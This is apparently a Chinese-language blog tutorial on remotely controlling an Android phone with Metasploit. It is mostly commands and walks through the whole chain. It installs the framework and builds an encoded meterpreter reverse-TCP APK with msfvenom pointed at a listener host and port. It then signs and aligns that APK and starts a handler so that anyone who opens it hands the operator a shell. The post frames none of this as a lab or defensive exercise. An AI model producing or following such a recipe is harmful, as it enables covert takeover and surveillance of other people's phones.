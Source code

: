 title: 使用Metasploit远控你的手机
categories: 干货
tags: [Metasploit,远控]
date: 2020-09-15 19:49:00
toc: true
---
# 安装MetaSploit
>我的环境是:Kubuntu20.04

一键脚本:
```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall &&   chmod 755 msfinstall &&   ./msfinstall
```
然后就无了
<!-- more -->
# 生成一个远控程序
```bash
msfvenom -p android/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=10.0.0.155 LPORT=52130 -f exe > test.apk

-p 攻击载荷
-e 编码方式
-i 编码次数
-b 在生成的程序中避免出现的值
LHOST,LPORT 监听上线的主机IP和端口
-f exe 生成EXE格式
```

>我们已经成功创建了Android格式（APK）文件的有效载荷。现在一般Android的移动设备不允许安装没有适当签名证书的应用程序。 Android设备只安装带有签署文件的APK。

我们可以使用如下工具进行手动签名：
>Keytool (已安装)
>jarsigner (需要安装)
>zipalign (需要安装)

执行下列命令签名。首先使用密钥工具创建密钥库。
```bash
keytool -genkey -v -keystore my-release-key.Keystore -alias wdnmd -keyalg RSA -keysize 2048 -validity 10000
```
然后使用JARsigner签名APK
```bash
apt install openjdk-14-headless #安装Java

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.Keystore test.apk wdnmd #签名APK

jarsigner -verify -verbose -certs test.apk #验证签名
```
使用zipalign优化APK
```bash
apt install zipalign #安装zipalign
zipalign -v 4 test.apk NEWtest.apk
```
#使用Metasploit进行测试
接下来启动metasploit的监听器。执行`msfconsole`打开控制台
```bash
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 10.0.0.155
set lport 52130
exploit
```
如有人打开**NEWtest.apk(MainActivity.apk)**时，则会出现等待输入界面
```bash
meterpreter >
```
输入`help`获得帮助